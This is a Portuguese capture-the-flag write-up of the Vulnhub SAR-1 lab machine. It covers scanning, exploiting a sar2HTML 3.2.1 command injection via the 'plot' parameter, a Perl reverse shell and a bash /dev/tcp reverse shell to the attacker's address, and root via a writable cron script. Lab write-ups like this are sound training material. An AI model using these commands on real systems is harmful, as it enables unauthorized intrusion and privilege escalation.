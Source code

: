 ```yaml
---
title: Vulnhub - SAR-1
categories: [Vulnhub]
tags: [NIkto,SSH Log Poison,Burp Suite,Flask,SOCAT]
---
```


![](/assets/img/Vulnhub/SAR-1/capa.png)

Link da Maquina: <https://www.vulnhub.com/entry/sar-1,425/>

# Scan/Enumeracao


## Host Discovery


* Com o comando arp-scan vamos descobrir quais sao os hosts que estao up na rede

```bash
sudo arp-scan -I eth1 192.168.150.0/24
```

![](/assets/img/Vulnhub/SAR-1/host-discovery.png)


## Port Discovery


* Vamos descobrir as portas quqe estao abertas no alvo

```bash
sudo nmap -n -T5 -p- 192.168.150.114 
```

![](/assets/img/Vulnhub/SAR-1/port-discovery.png)




## Port Scan


* Vamos escanear a porta que esta aberta para descobrir qual o servico que esta rodando e qual a versao

```bash
sudo nmap -n -T5 -A -p 80 192.168.150.114
```

![](/assets/img/Vulnhub/SAR-1/port-scan.png)

> POrta 80: Apache httpd 2.4.29




# Exploracao


## Web


### Acessando a pagina pelo browser

* Na pagina principal da aplicacao temo a "Default Page" do Apache2

![](/assets/img/Vulnhub/SAR-1/apache1.png)




### Fuzzy de diretorios

* Rodando o gobuster para procurar por mais arquivos e diretorios

```bash
gobuster dir -u http://192.168.150.114 -w /usr/share/wordlists/dirb/big.txt -x php,txt
```

![](/assets/img/Vulnhub/SAR-1/gobuster1.png)




* Achamos dois arquivos, **phpinfo.php** e **robots.txt**. No phpinfo temos as informacoes de configuracao do Apache

![](/assets/img/Vulnhub/SAR-1/phpinfo.png)


* No outro arquivo robots temos uma palavra **sar2HTML**

![](/assets/img/Vulnhub/SAR-1/robots.png)




### sar2HTML


* Conseguimos acessar uma outra pagina web com a dica que recebemos no robots: http://192.168.150.114/sar2HTML/

![](/assets/img/Vulnhub/SAR-1/sar2HTML.png)


* Jogando no google o nome da aplicacao ja apareceram inumeros sites com a vulnerabilidade dessa aplicacao




* Entrando no site www.exploit-db.com e procurando por exploits para o **sarHTML versao 3.2.1** temos um para RCE. Inicialmente analisando o exploit, ele e feito em python e a principio consegue executar comando atraves da URL **"{url}/index.php?plot=;{cmd}"**

![](/assets/img/Vulnhub/SAR-1/exploit-db-sarHTML.png)




* Vamos baixa-lo, dar permissao de execucao para o script e executa-lo

![](/assets/img/Vulnhub/SAR-1/rce-sarHTML.png)

> 1 - Executamos o script com python3

> 2 - Inserimos a URL da aplicacao

> 3 - Inserimos o comando para ser executado no alvo


## RCE / Shell Reverso


* Agora vamos seguir os seguintes passos:

![](/assets/img/Vulnhub/SAR-1/shell-reverso.png)

> 1 - Deixar uma porta escutando na kali

> 2 - procurar com o [rbscheat](https://github.com/marciosouza20/rbscheat) um comando par nos enviar um shell em **perl**. Mas porque em perl? Testamos varios comandos ate termos sucesso com o comando em perl para hosts Linux que nao possuem /bin/sh. 

> 3 - `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.150.110:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

> 4 - Enviamos para o nosso alvo por meio do exploit

> 5 - E por fim recebemos o **SHELL REVERSO**!


## Melhorando o Shell


* Vamos melhorar o nosso shell reverso

```bash
script /dev/null
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![](/assets/img/Vulnhub/SAR-1/melhorando-shell.png)




# Escalando Privilegio


* Primeiramente procuramos por diretorios e arquivos com pesmissao de escrita. Procuramos tambem por binarios com SUID e listamos o que podemos executar como sudo

```bash
find / -type d -writable 2> /dev/null | fgrep -v proc
find / -type f -writable 2> /dev/null | fgrep -v proc
find / -perm -4000 2> /dev/null | fgrep -v proc
sudo -l
```


* Nao conseguimos achar nada de interessando inicialmente. Entao vamos tranferir o linpeas para o alvo

![](/assets/img/Vulnhub/SAR-1/transferindo-linpeas.png)




* Executamos o linpeas

![](/assets/img/Vulnhub/SAR-1/executamos-linpeas.png)


* Duas coisas chamaram antencao no resultado do linpeas. 

![](/assets/img/Vulnhub/SAR-1/crontab-1.png)

![](/assets/img/Vulnhub/SAR-1/crontab-2.png)

> A primeira coisa que nos chama atencao e uma tarefa agendada no crontab



![](/assets/img/Vulnhub/SAR-1/linpeas-out-1.png)

![](/assets/img/Vulnhub/SAR-1/linpeas-out-2.png)

> A segunda e que podemos escrever em um arquivo que esta no diretorio /var/spool/cron/crontabs 


* Verificando o **/etc/crontab** podemos observar que a tarefa se trata em executar um arquivo, **/var/www/html/finally.sh**

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)


* Ao verificar esse arquivo observamso que ele executa outro script **write.sh**, que esta no mesmo diretorio. Para a nossa alegria temos permissao de escrita no arquivo write.sh. 

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)




* Agora vamos criar um arquivo na nossa maquina kali com o nome "write.sh". 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.150.110/443 0<&1
```

![](/assets/img/Vulnhub/SAR-1/write-kali.png)


* Depois de ter feito o arquivo vamos levantar um servidor web com o python na nossa maquina, baixar ele no alvo e dar permissao total pra ele

```bash
wget 192.168.150.110/write.sh
chmod 777 write.sh
```

![](/assets/img/Vulnhub/SAR-1/write-alvo.png)


* Agora e so deixar a porta escutando na nossa maquina e qnd o spript for executado a proxima vez viraremos **ROOT**!




# ROOT


* **Pronto, agora somos ROOT!**

![](/assets/img/Vulnhub/SAR-1/root.png)


# Flag


* Conseguimos pegar a flag do **user.txt** e a **root.txt**

![](/assets/img/Vulnhub/SAR-1/flag-user.png)

![](/assets/img/Vulnhub/SAR-1/flag-root.png)
